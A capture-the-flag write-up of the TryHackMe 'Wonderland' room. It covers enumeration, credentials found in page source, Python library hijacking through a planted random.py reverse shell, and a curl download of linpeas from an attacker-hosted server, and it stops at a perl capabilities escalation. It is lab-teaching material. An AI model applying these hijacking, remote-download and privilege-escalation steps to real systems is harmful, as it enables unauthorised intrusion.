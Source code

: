 Writeup for the Wonderland CTF Room on: https://tryhackme.com/

First we start by adding the ip to our /etc/hosts file.
Then we start our enumeration.

### Enumeration

## Nmap

We can see an open HTTP and SSH port.

[![https://imgur.com/jitshko.png](https://imgur.com/jitshko.png)](https://imgur.com/jitshko.png)

## Manual

Lets visit the site manually:
We dont see much.

[![https://imgur.com/11z0aWO.png](https://imgur.com/11z0aWO.png)](https://imgur.com/11z0aWO.png)

## Gobuster

Lets see what gobuster can reveal.

[![https://imgur.com/wFIBJg9.png](https://imgur.com/wFIBJg9.png)](https://imgur.com/wFIBJg9.png)

After checking the endpoints they dont seem to make to much sense to me.

But the /r endpoint tells us to keep going.

[![https://imgur.com/tE3tIbB.png](https://imgur.com/tE3tIbB.png)](https://imgur.com/tE3tIbB.png)

So lets see if we get further with recursive search.

## Dirbuster

[![https://imgur.com/80N9DDR.png](https://imgur.com/80N9DDR.png)](https://imgur.com/80N9DDR.png)

This looks prommising lets check it out.

In the source code we find credentials ! 

[![]](https://media.giphy.com/media/PjplWH49v1FS0/giphy.gif)

### Privilege Escalation

After logging in with SSH we can see the root.txt and a python script both owned by root.

[![https://imgur.com/0Q8Eaqt.png](https://imgur.com/0Q8Eaqt.png)](https://imgur.com/0Q8Eaqt.png)

Since the root flag is in our home directory and the hint says everything is upside down i checked the /root directory and found the user flag.

We can see the other users on the machine:

[![https://imgur.com/i40U4qz.png](https://imgur.com/i40U4qz.png)](https://imgur.com/i40U4qz.png)

We are allowed to run the python script as the user rabbit without password.

[![https://imgur.com/1WhFACr.png](https://imgur.com/1WhFACr.png)](https://imgur.com/1WhFACr.png)

Lets take a closer look at the script:

The short version is:

import random

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)

Since there is no absolute path we can create our own random.py and it will be imported and executed here:

So create a file called random.py and paste the code for a python reverseshell inside.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

// Make sure to remove the python -c ' ' 

sudo -u rabbit /usr/bin/python3.6 walrus_and_the_carpenter.py

[![https://imgur.com/21Wo62w.png](https://imgur.com/21Wo62w.png)](https://imgur.com/21Wo62w.png)

And we are the rabbit ! :) 

At this point i will just run linpeas.
Download it from here on your Host: 

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

In the same directory set up a http server with python:

Python3 -m http.server 1337

On your target go in the /tmp directory:

curl http://yourip:ip/linpeas.sh


There is a interisting capability set on perl:

[![https://imgur.com/68H4nts.png](https://imgur.com/68H4nts.png)](https://imgur.com/68H4nts.png)

Alternativly we could have also found it like this:

[![https://imgur.com/khkwlxr.png](https://imgur.com/khkwlxr.png)](https://imgur.com/khkwlxr.png)

When we check on GTFOBins on perl capabilities:

[![https://imgur.com/L8aSgEu.png](https://imgur.com/L8aSgEu.png)](https://imgur.com/L8aSgEu.png)

I tried this didn't work.
we don't have permission to use perl. 

Lets find a way to bypass that!

When we look at the manpage of capabilities.

https://man7.org/linux/man-pages/man7/capabilities.7.html

We can see that we can use it to change the suid.

[![https://imgur.com/HdwcoFW.png](https://imgur.com/HdwcoFW.png)](https://imgur.com/HdwcoFW.png)

Looks like we can run perl as hatter

[![https://imgur.com/k8pJYiL.png](https://imgur.com/k8pJYiL.png)](https://imgur.com/k8pJYiL.png)

